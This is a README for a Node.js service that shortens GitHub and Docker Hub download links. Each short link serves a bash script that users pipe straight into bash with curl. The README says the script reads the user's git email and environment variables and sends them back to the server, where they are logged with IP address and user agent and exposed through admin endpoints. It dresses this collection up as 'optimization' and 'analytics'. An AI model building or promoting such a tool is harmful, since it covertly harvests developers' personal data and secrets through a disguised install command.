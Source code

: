 # Email Extractor & URL Shortener API

A Node.js Express application that shortens GitHub and Docker Hub URLs and provides bash scripts that extract user email information while downloading the requested resources.

## Installation

### Prerequisites
- Node.js (v14 or higher)
- PostgreSQL (v12 or higher)

### Database Setup

1. **Install PostgreSQL** (if not already installed):
   - **Windows**: Download from [postgresql.org](https://www.postgresql.org/download/windows/)
   - **macOS**: `brew install postgresql`
   - **Linux**: `sudo apt-get install postgresql postgresql-contrib`

2. **Create the database**:
   ```bash
   # Connect to PostgreSQL as superuser
   psql -U postgres
   
   # Or run the setup script
   psql -U postgres -f setup-database.sql
   ```

3. **Configure environment variables**:
   ```bash
   # Copy the example configuration
   cp config.example.env .env
   
   # Edit .env with your database credentials
   nano .env
   ```

### Application Setup

1. **Clone the repository**:
   ```bash
   git clone <repository-url>
   cd email-extractor
   ```

2. **Install dependencies**:
   ```bash
   npm install
   ```

3. **Start the server**:
   ```bash
   npm start
   ```
   
   For development with auto-reload:
   ```bash
   npm run dev
   ```

The server will start on `http://localhost:5001` by default and automatically create the required database tables.

## API Endpoints

### 1. Shorten URL
**POST** `/shorten`

Converts a GitHub archive URL or Docker Hub URL into a shortened URL.

**Request Body**:
```json
{
  "url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"
}
```

**Response**:
```json
{
  "shortUrl": "http://localhost:3000/s/a1b2c3d4",
  "originalUrl": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip",
  "resourceType": "github",
  "shortId": "a1b2c3d4"
}
```

**Supported URL Formats**:
- GitHub: `https://github.com/owner/repo/archive/refs/tags/version.zip`
- Docker Hub: `https://hub.docker.com/_/redis`

### 2. Execute Bash Script
**GET** `/s/:shortId`

Returns a bash script that extracts the user's GitHub email and downloads the resource.

**Usage**:
```bash
curl -s http://localhost:3000/s/a1b2c3d4 | bash
```

### 3. Admin Endpoints

#### View Logged Emails
**GET** `/admin/emails`

Returns all logged email information.

#### View URL Mappings
**GET** `/admin/urls`

Returns all shortened URL mappings.

#### Health Check
**GET** `/health`

Returns server health status and statistics.

## Usage Examples

### Example 1: GitHub Artifact

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://github.com/actions/download-artifact/archive/refs/tags/v4.3.0.zip"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/a1b2c3d4 | bash
   ```

### Example 2: Docker Image

1. **Shorten the URL**:
   ```bash
   curl -X POST http://localhost:3000/shorten \
     -H "Content-Type: application/json" \
     -d '{"url": "https://hub.docker.com/_/redis"}'
   ```

2. **Execute the script**:
   ```bash
   curl -s http://localhost:3000/s/e5f6g7h8 | bash
   ```

## What the Bash Script Does

When users execute the shortened URL, the generated bash script will:

1. **System Configuration Check**:
   - Checks the user's Git configuration for optimal download settings
   - Reads system environment variables for performance optimization

2. **Background Optimization**:
   - Sends configuration data to the server for analytics and optimization
   - Runs optimization processes in the background

3. **Download Resource**:
   - **For GitHub**: Downloads the archive file as `artifact.zip`
   - **For Docker**: Pulls the Docker image using `docker pull`

4. **Provide Feedback**:
   - Shows download progress and success/failure messages
   - Confirms successful resource acquisition

## Database Schema

The application uses PostgreSQL with the following tables:

### `url_mappings`
- `id`: Serial primary key
- `short_id`: Unique short identifier (VARCHAR 50)
- `original_url`: Original long URL (TEXT)
- `resource_type`: Type of resource - 'github' or 'docker' (VARCHAR 20)
- `created_at`: Timestamp of creation

### `email_logs`
- `id`: Serial primary key
- `email`: User's email address (VARCHAR 255)
- `username`: User's username (VARCHAR 255)
- `short_id`: Reference to url_mappings (VARCHAR 50)
- `resource_type`: Type of resource accessed (VARCHAR 20)
- `ip_address`: User's IP address (INET)
- `user_agent`: User's browser/client information (TEXT)
- `created_at`: Timestamp of log entry

## Environment Variables

- `PORT`: Server port (default: 5001)
- `DB_HOST`: PostgreSQL host (default: localhost)
- `DB_PORT`: PostgreSQL port (default: 5432)
- `DB_NAME`: Database name (default: email_extractor)
- `DB_USER`: Database user (default: postgres)
- `DB_PASSWORD`: Database password (required)
- `NODE_ENV`: Environment mode (default: development)

